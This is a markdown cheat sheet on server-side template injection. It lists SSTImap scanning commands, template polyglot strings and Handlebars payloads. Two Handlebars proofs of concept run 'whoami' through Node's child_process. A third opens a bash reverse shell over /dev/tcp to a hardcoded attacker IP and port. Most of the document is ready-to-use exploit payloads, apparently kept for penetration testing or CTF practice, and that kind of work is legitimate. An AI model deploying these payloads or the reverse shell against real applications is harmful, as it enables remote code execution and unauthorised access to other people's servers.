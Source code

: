 # Server Side Template Injection
## Automated Tools
### TInjA
### SSTImap
```bash
python3 sstimap.py -i -l 5
```
```bash
python3 sstimap.py -u "http://example.com/" --crawl 5 --forms
```
```bash
python3 sstimap.py -u "https://example.com/page?name=John" -s
```
## Template Injection Table
An interactive table containing the most efficient template injection polyglots along with the expected responses of the 44 most important template engines.\
[Template Injection Table](https://cheatsheet.hackmanit.de/template-injection-table/index.html/)
### Error Polygot
The only polyglot that produces an error message for all 44 template engines examined. 
> [!WARNING]
> There is a possibility that errors will be caught by the web application in question, rendering error polyglots useless.
### Non-Error Polygots  
These are constructed in such a way that at **least one** of them does not throw an error, but renders the polyglot modified for all template engines we examined.
```content
">[[${{1}}]]
```
```content
<%=1%>@*#{1}
```
```content
{##}/*{{.}}*/
```
## Examples 
>[!NOTE]
>If a module isn't defined, then you must find a work around with global modules. CTRL+f to find other uses of the function in question.

>[!IMPORTANT]
>URL encode all fields before sending them via Burp's Repeater
### Reference
[HackTricks](https://book.hacktricks.xyz/)
### Node.js
#### Handlebars
Proof of Concept
```field
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
Proof of Concept (if require is not defined)
```field
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
Reverse Shell (if require is not defined)
```field
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/10.10.15.99/9001 0>&1\"');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```


